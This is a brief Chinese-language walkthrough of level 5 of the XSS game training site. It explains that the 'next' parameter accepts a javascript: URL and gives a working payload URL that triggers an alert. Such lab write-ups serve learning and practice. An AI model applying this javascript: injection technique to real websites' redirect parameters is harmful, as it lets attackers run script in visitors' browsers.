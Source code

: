 # Level-5

## 攻擊原理

#### 原始碼
- index.html

#### 手法:
- 使用 next 參數搭配 javascript 偽造假的 confirm evnet
- 直接在網址列上輸入


## 攻擊方法
- 在 URL 中輸入

```
https://xss-game.appspot.com/level5/frame/confirm?next=javascript:alert(123);
```

## 截圖

#### Request:
![image info](./00.png)

#### Response:
![image info](./01.png)
